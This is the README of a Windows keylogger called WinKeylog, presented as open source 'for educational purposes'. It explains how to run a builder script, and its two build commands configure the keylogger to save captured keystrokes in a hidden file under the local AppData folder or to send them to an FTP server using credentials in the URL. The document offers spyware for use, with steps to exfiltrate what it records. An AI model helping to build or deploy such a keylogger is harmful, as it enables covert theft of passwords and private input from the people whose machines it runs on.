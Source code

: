 # WinKeylog
 Windows Keylogger

This is open source keylogger for educational purposes. It can send logs to `local file/ftp server`. It fully written in pure winapi.

For make new build you need to run builder:

Make new build build.exe what send logs when it equal or more than 1kb or every 5 minutes (300 seconds) to local file `%LOCALAPPDATA%\keylog.txt`

`build.py 1024 300 file “%“LOCALAPPDATA”%”\keylog.txt build.exe`

Make new build build.exe what send logs when it equal or more than 1kb or every 5 minutes (300 seconds) to FTP server 127.0.0.1 user Anon password Pass

`build.py 1024 300 ftp ftp://Anon:Pass@127.0.0.1/ build.exe`


# Source : Unknown